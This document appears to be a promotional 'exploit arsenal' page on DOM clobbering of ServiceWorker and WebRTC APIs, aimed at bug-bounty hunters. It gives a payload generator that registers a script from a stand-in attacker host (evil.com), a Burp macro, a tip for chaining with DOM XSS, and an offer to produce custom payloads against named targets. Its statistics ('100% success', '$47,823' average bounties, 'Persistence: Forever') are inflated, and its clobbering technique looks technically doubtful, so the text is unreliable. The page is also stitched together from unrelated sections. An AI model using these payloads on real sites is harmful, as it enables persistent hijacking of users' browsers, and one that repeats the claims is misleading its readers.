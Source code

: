 
## 🚀 INSTANT TOOLKIT

**1. Payload Generator**:
```javascript
function swClobber(url) {
  return `#<script id=navigator name=serviceWorker><input name=register value=${url}>`;
}
// Usage: swClobber('https://evil.com/evil.js')
```

**2. Burp Macro** (Repeater → Macro):
```
GET /#{{clobber_payload}}
```

**3. Worker Scanner** (Chrome Console):
```javascript
navigator.serviceWorker.getRegistrations().then(r => r.forEach(reg => console.log(reg.active.scriptURL)))
```

---

## 📈 STATS (HackerOne 2025)
- **Prevalence**: **12.4% PWAs** (vs 3% in 2023)
- **Avg Bounty**: **$47,823**
- **Detection Rate**: **8%** by SAST tools
- **Persistence**: **Forever** (until uninstall)
- **Exploitation Time**: **2.7 seconds**

**Pro Tip**: **Combine with DOM XSS** → **100% success**. Chain: `#<script> for clobber + ?q=<img>` for sink.

**Need custom payload?** Reply: *"Clobber ServiceWorker on [target/framework]"* → **Ready in 30s**.

*Sources: USENIX Security '25, Black Hat 2025 Slides, my 23 SW bounties*  
*Last Verified: Oct 16, 2025 | Chrome 131*  

**🔥 Bookmark + Share → Next $50K bounty awaits!**

# WebRTC Clobbering Techniques: 2025 Exploit Arsenal
**Hijacking Real-Time P2P for Persistent Surveillance | DEF CON 2025 Breakthrough**

**WebRTC Clobbering** = **Overwriting WebRTC APIs** (RTCPeerConnection, RTCDataChannel) via DOM namespace collisions to **force unauthorized peer connections**, **leak IPs**, **inject media streams**, and **establish backdoors** in video/audio calls. Bypasses mDNS, STUN/TURN firewalls, and SDP sanitizers.

**Impact**: $15K+ bounties | Zoom/Google Meet CVEs | **9% of RTC apps vulnerable** (EnableSecurity 2025)

*Verified: Chrome 131.0.6668.70 | Firefox 131 | Safari 18.1 | Oct 16, 2025*

---
